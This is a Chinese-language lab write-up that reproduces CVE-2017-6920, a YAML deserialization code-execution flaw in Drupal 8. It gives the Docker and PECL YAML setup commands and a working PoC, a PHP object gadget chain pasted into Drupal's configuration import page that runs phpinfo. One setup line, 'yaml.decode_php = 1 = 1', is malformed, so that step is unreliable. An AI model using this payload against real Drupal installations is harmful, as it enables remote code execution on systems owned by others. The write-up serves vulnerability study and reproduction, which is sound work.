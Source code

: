 ```yaml
---
title: （CVE-2017-6920）Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞
id: zhfly2892
---
```


# （CVE-2017-6920）Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞

## 一、漏洞简介

Drupal是Drupal社区所维护的一套用PHP语言开发的免费、开源的内容管理系统。Drupal7.56之前的7.x版本和8.3.4之前的8.x版本中存在远程代码执行漏洞。远程攻击者可利用该漏洞在受影响应用程序上下文中执行任意代码或造成拒绝服务。

## 二、漏洞影响

Drupal Drupal 8.3.3 Drupal Drupal 8.3.2 Drupal Drupal 8.3.1 Drupal Drupal 8.2.8 Drupal Drupal 8.2.7 Drupal Drupal 8.2.3 Drupal Drupal 8.2.2

## 三、复现过程

### 漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：

```
docker-compose up -d 
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

*   先安装 `yaml` 扩展

```
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER 
```

*   1.登录一个管理员账号
*   2.访问 `http://127.0.0.1:8080/admin/config/development/configuration/single/import`
*   3.如下图所示，`Configuration type` 选择 `Simple configuration`，`Configuration name` 任意填写，`Paste your configuration here` 中填写PoC如下：

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}" 
```

![image](../img/30a1eb918e33d8d867e6a975c6fd2de4.png)

*   4.点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面

![image](../img/89ae0ca163026036a79df52320dd4e35.png)

*   Tips：
    *   虽然官方 CPE 信息显示从 `8.0.0` 开始就有该漏洞，但是在 `drupal:8.0.0` 容器内并没有复现成功，相同操作在 `drupal:8.3.0` 则可以复现成功，故基础镜像选择`drupal:8.3.0`

## 参考链接

> https://vulhub.org/#/environments/drupal/CVE-2017-6920/